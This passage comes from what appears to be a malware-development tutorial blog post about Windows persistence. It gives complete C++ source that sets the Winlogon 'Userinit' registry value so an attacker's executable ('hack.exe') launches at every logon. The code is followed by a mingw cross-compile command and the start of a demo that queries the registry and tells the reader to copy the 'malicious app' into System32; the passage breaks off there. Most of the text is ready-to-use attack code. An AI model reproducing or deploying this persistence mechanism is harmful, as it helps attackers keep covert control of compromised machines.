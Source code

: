 ```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // userinit
  const char* ui = "C:\\Windows\\System32\\userinit.exe,Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Userinit", 0, REG_SZ, (unsigned char*)ui, strlen(ui));
    RegCloseKey(hkey);
  }

  return 0;
}
```

So, compile the program responsible for persistence:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/58/2022-06-12_14-18.png){:class="img-responsive"}    

### demo

And see everything in action. First of all, check registry keys:    

```powershell
req query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

![pers](/assets/images/58/2022-06-12_14-23.png){:class="img-responsive"}    

Copy malicious app to `C:\Windows\System32\`. And run:
